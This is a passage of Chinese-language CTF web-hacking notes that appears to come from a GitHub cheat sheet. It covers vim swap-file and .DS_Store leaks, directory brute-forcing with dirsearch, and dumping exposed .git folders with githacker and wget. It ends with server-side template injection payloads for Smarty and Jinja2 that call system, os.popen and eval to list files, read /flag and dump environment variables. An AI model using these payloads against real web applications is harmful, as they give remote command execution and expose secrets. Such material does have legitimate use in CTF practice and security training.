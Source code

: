 ```bash
</body>
</html>
```

### vim 交换文件名

在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容
>以 index.php 为例：第一次产生的交换文件名为 .index.php.swp
>再次意外退出后，将会产生名为 .index.php.swo 的交换文件
>第三次产生的交换文件则为 .index.php.swn

### 扫描目录

```bash
cd dirsearch
python dirsearch.py -u 网址 -e php 或 python .\dirsearch.py -u 网址 -e php
```

### .DS_Store文件泄露

```bash
.DS_Store(Desktop Services Store)是macOS目录下的隐藏文件, 包含了当前目录结构和一些的自定义信息, 如背景和图标位置等, 在windows下类似的文件为desktop.ini. 暴露了.DS_Store文件也就相当于暴露了该目录下的所有内容. 可以说是比较严重的泄露.
```

### Git泄漏

```bash
githacker --url http(s)://xxxxxx --output-folder ~/target
cd target
git log
git diff xxxx
git stash list 
git stash pop
git reflog 历史
//
wget -r url/.git
```

### SSTI

#### smarty

`{if system('cat /flag)}{/if}`

`{{config.items()}}`- Jinja2引擎解析这个字符串时，它会返回一个包含所有配置项的列表
`{{ config.__class__.__init__.__globals__['os'].popen('ls ../').read()}}`读取系统文件
`import os os.system('ls ../') os.system('cat ../flag')`

```bash
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("env").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```
